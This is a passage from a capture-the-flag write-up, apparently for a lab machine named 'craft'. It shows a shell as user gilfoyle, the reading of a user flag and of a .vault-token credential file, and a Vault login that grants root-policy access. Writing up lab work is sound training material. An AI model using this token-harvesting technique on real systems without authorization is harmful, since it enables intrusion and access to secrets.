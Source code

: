     Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    gilfoyle@craft:~$ ls
    user.txt
    gilfoyle@craft:~$ cat user.txt
    bbf4b<redacted>

# getting root

## enumeration

When listing the `gilfoyle` home folder we found a `.vault-token` file
containing a [vault](https://www.vaultproject.io/) token.

    :::text
    gilfoyle@craft:~$ ls -al
    total 36
    drwx------ 4 gilfoyle gilfoyle 4096 Feb  9  2019 .
    drwxr-xr-x 3 root     root     4096 Feb  9  2019 ..
    -rw-r--r-- 1 gilfoyle gilfoyle  634 Feb  9  2019 .bashrc
    drwx------ 3 gilfoyle gilfoyle 4096 Feb  9  2019 .config
    -rw-r--r-- 1 gilfoyle gilfoyle  148 Feb  8  2019 .profile
    drwx------ 2 gilfoyle gilfoyle 4096 Feb  9  2019 .ssh
    -r-------- 1 gilfoyle gilfoyle   33 Feb  9  2019 user.txt
    -rw------- 1 gilfoyle gilfoyle   36 Feb  9  2019 .vault-token
    -rw------- 1 gilfoyle gilfoyle 2546 Feb  9  2019 .viminfo
    gilfoyle@craft:~$ cat .vault-token
    f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9

## Vault

In order to use vault, when need to authenticate ourself with the token.

    :::text
    gilfoyle@craft:~$ vault login
    Token (will be hidden):
    Success! You are now authenticated. The token information displayed below
    is already stored in the token helper. You do NOT need to run "vault login"
    again. Future Vault requests will automatically use this token.

    Key                  Value
    ---                  -----
    token                f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
    token_accessor       1dd7b9a1-f0f1-f230-dc76-46970deb5103
    token_duration       ∞
    token_renewable      false
    token_policies       ["root"]
    identity_policies    []
    policies             ["root"]

We are member of the vault's
[root policy](https://www.vaultproject.io/docs/concepts/policies.html#root-policy)
meaning that we can access everything stored on the vault.
